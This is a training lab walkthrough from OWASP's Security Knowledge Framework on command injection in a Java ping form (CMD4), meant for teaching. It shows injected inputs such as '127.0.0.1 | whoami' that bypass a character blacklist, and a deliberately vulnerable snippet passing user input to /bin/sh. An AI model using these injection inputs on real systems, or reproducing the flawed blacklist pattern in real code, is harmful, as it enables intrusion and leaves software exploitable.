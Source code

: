 # Command Injection 4 - CMD4

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-cmd4
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-cmd4
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

When we start the application we can see that we can ping an adress.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/CMD4/1.png)

Let's try to ping 127.0.0.1

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/CMD4/2.png)

We get back the output of the ping command which tell us this might be vulnerable to a command injection.

## Exploitation

Let's try chaining commands

```text
127.0.0.1 ; whoami
```

We get nothing back, maybe this application has a blacklist

```java
ip.replace("`", " ");
ip.replace(";", " ");
ip.replace("&", " ");
Process pb = new ProcessBuilder("/bin/sh", "-c",
    "ping -c1 " + ip + " > ./ping_output")
    .redirectErrorStream(true)
    .start();
```

We can see in this piece of code the app is removing certain dangerous characters in an attempt to avoid some kind of command injection. Unfortunately there are ways to bypass this blacklist approach.
Let's try piping the commands:

```text
127.0.0.1 | whoami
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/CMD4/3.png)

And we have a command injection!

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/Command_Injection" %}

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html" %}
